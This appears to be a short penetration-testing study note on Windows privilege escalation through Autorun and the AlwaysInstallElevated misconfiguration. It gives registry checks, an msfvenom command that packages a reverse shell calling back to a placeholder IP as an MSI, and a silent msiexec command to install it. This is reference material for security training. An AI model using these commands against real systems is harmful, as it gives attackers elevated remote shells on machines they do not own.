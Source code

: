 # Autorun
https://juggernaut-sec.com/autorun-startup-registry-keys/
Requires administrator to run the program!

# AlwaysInstalledElevated
Windows installer files `.msi` are used to install applications on the system. These files can be configured to run with *higher privileges* if the installation requires *administrator privileges*.

```powershell
# These two registry values must be "0x1"
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

```sh
msfvenom -p windows/shell_reverse_tcp lhost=[IP] lport=4444 -f msi -o setup.msi
```
```powershell
# Place ‘setup.msi’ in ‘C:\Temp’.
msiexec /quiet /qn /norestart /i C:\Temp\setup.msi
```

